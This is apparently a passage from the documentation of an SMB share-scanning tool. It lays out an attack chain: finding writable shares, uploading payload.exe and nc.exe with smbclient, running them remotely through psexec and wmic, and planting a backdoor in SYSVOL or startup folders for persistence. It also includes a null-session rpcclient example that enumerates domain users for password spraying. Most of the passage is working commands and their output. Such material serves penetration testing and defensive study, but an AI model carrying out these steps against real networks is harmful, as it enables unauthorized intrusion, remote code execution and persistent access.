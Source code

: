 ```bash
# 1. Find writable shares
./smbseek.py -t -u user -p pass

# 2. Upload tool to writable share
smbclient //192.168.1.50/Transfer -U user%pass
smb: \> put payload.exe
smb: \> put nc.exe

# 3. Execute via PsExec or WMIC
psexec.py user:pass@192.168.1.50 cmd.exe
wmic /node:192.168.1.50 /user:user /password:pass process call create "\\192.168.1.50\Transfer\payload.exe"

# 4. Establish persistence
# Upload backdoor to SYSVOL or startup folders
```

## Exploitation Examples

### Example 1: Null Session Enumeration
**Scenario**: Domain controller with null session enabled

```bash
# Discovery
$ ./smbseek.py -v
[MEDIUM] 192.168.1.10 (dc01.company.local), 3 shares [NULL SESSION]
    ★ Interesting: SYSVOL, NETLOGON, IPC$

# Manual enumeration
$ rpcclient -U "" 192.168.1.10 -N
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[john.doe] rid:[0x451]
user:[jane.smith] rid:[0x452]
...

rpcclient $> queryuser 0x451
        User Name   :   john.doe
        Full Name   :   John Doe
        Home Drive  :   H:
        Description :   IT Administrator
...

# Impact: Complete user enumeration, can be used for password spraying
```

### Example 2: Accessible Backup Share
**Scenario**: Backup share with sensitive data accessible via guest account
